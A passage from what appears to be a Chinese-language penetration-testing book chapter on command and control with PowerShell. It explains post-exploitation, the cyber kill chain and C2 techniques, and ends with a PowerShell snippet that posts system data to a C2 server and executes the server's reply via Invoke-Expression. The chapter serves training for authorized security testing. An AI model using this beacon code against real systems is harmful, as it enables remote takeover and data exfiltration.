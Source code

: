

# 第十四章：命令与控制

在不断变化的网络安全环境中，掌握 PowerShell 的力量已经成为渗透测试人员工具包中的基石，尤其是那些希望复制现实世界场景的人员。本章深入探讨了在渗透测试过程中使用 PowerShell 进行**命令与控制**（**C2**）的艺术与科学，在渗透测试中，安全专家模拟攻击以评估防御的强度。

PowerShell，微软的任务自动化框架，已经成为一把双刃剑——既是防御者的工具，也是攻击者的工具。随着组织加强防御，攻击者利用 PowerShell 的多功能性，悄无声息地穿越网络、建立持久连接并执行恶意命令。本章将引导你了解 PowerShell 在渗透测试背景下的复杂应用，揭示其在 C2 操作中的能力。

我们首先探讨基础概念，了解 PowerShell 如何被武器化用于后期利用活动。本章揭示了渗透测试人员如何模拟对抗战术的多种方式，从利用内置的 cmdlet 和脚本到执行复杂的混淆技术。实用的示例将引导你了解执行命令、操作系统和规避检测的复杂性——这一切都在渗透测试的受控框架内进行。

在本章的学习过程中，你将深入了解如何积极使用 PowerShell 来加强防御策略。理解对手的视角对于加强网络防御至关重要，本章为安全专家提供了在渗透测试中使用 PowerShell 进行 C2 操作的知识，帮助他们应对动态变化的安全威胁。

本章涵盖的主要内容如下：

+   后期利用、C2 和网络杀伤链

+   用于 C2 的 PowerShell 组件

+   使用 Empire 进行 C2

+   使用 Meterpreter 和 PowerShell 进行 C2

# 后期利用、C2 和网络杀伤链

后期利用、C2 和网络杀伤链是网络安全中的基本概念。它们共同构成了一个框架，帮助你理解、响应和减轻网络威胁。后期利用是初次入侵后的阶段，攻击者旨在保持访问权限、提升特权、收集情报并在被攻陷的系统中横向移动。此阶段涉及部署恶意软件植入、利用漏洞、窃取凭据以及使用"地面生活"技术来规避检测。

C2 是使攻击者能够远程管理被攻陷系统的基础设施和通信机制。这包括命令服务器、通信协议、加密和有效载荷传递。攻击者使用**域生成算法**（**DGAs**）、分阶段有效载荷、快速变化的 DNS 和加密通信来建立和维持对被攻陷环境的控制。

网络攻击链提供了一个战略模型，概述了从侦察到实现攻击者目标的网络攻击阶段。这些阶段包括侦察、武器化、交付、利用、安装、C2（指挥与控制）和目标执行。理解网络攻击链有助于组织在每个阶段制定针对性的防御措施，以防止、检测和响应网络威胁。在后期利用阶段，组织必须专注于建立持久性、特权升级、数据收集和横向移动。防御措施包括强大的终端保护、定期补丁更新和全面的监控。

C2 防御要求识别并阻止通信通道，监控异常行为，并进行加密检查。积极的措施，如威胁情报、用户教育和事件响应规划，对于应对网络攻击链至关重要。组织可以通过全面解决后期利用、C2 和网络攻击链来加强其网络安全态势。这需要结合技术解决方案、积极措施以及一个明确定义的事件响应策略，以有效应对和缓解网络威胁所带来的复杂挑战。

# 用于 C2 的 PowerShell 组件

PowerShell 是一种功能强大且可扩展的脚本语言，攻击者在后期利用过程中越来越多地使用它来建立 C2 通道。在这次探索中，我们将深入研究可以用于 C2 目的的 PowerShell 组件，并提供详细示例来说明它们的实现。

## 网络通信的 Cmdlets

PowerShell 提供了允许与外部服务器进行通信的 cmdlets，从而促进 C2 通道的建立。例如，`Invoke-RestMethod` cmdlet 可以用于与 Web 服务进行交互。考虑以下示例：

```
 $C2Server = "htt p://c2server.snowcap cyber.com"
$Payload = "Get-Process | Out-String"
# Sending data to C2 server
$response = Invoke-RestMethod -Uri "$C2Server/data" -Method Post -Body $Payload
# Executing received commands
Invoke-Expression $response
```
